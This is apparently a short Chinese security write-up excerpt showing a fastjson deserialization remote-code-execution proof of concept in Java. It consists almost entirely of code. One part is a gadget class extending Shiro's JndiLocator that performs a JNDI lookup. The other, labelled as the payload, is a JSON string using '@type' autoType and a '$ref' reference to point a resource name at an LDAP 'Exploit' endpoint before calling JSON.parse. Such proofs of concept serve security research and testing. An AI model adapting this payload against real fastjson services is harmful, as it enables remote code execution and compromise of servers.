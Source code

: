 
```
package org.heptagram.fastjson;

import com.alibaba.fastjson.JSON;
import org.apache.shiro.jndi.JndiLocator;
import org.apache.shiro.util.Factory;
import javax.naming.NamingException;

public class RefRCE  <T> extends JndiLocator implements Factory<T>, AutoCloseable {
    private String resourceName;

    public RefRCE() {
    }

    public T getInstance() {
        System.out.println(getClass().getName() + ".getInstance() invoke.");
        try {
            return (T) this.lookup(this.resourceName);
        } catch (NamingException var3) {
            throw new IllegalStateException("Unable to look up with jndi name '" + this.resourceName + "'.", var3);
        }
    }

    public String getResourceName() {
        System.out.println(getClass().getName() + ".getResourceName() invoke.");
        return this.resourceName;
    }

    public void setResourceName(String resourceName) {
        System.out.println(getClass().getName() + ".setResourceName() invoke.");
        this.resourceName = resourceName;
    }

    @Override
    public void close() throws Exception {
    }
}


```

载荷部分：

```
package org.heptagram.fastjson;

import com.alibaba.fastjson.JSON;

public class RefRCEMain {
    public static void main(String[] args) {
        String json = "{\n" +
                "  \"@type\":\"java.lang.AutoCloseable\",\n" +
                "  \"@type\": \"org.heptagram.fastjson.RefRCE\",\n" +
                "  \"resourceName\": \"ldap://localhost:1099/Exploit\",\n" +
                "  \"instance\": {\n" +
                "    \"$ref\": \"$.instance\"\n" +
                "  }\n" +
                "}";
        System.out.println(json);
        JSON.parse(json);

    }
}
```